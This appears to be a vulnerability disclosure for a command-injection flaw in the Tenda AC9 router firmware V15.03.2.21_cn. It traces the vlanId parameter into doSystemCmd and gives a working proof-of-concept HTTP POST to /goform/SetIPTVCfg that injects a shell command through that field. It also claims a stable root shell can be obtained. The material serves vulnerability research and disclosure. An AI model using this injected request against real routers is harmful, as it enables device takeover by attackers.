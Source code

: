 # Tenda AC9 V15.03.2.21_cn Command Execution Vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/profile/contact.html
- Firmware download address ： https://www.tenda.com.cn/download/default.html

## 1. Affected version

![image-20220214114428086](img/image-20220214114428086.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220214130342932](img/image-20220214130342932.png)

First, it puts the content after the vlanid parameter into V8,
Then bring V8 into sub_ A3760 and sub_ In a3550 function

![image-20220214130401202](img/image-20220214130401202.png)

![image-20220214130408069](img/image-20220214130408069.png)

 The functions call dosystemcmd, and the parameters are controllable. We can achieve the effect of command injection by constructing payload

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V15.03.2.21_cn
2. Attack with the following POC attacks

```
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/iptv.html?random=0.7642888131213508&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcmho1qw

stbEn=1&igmpEn=1&vlanId=1"echo 1234 > /tmp/4455 \"\
```

The reproduction results are as follows:

![image-20220214130316917](img/image-20220214130316917.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shel![image-20220214123320952](img/image-20220214123320952.png)


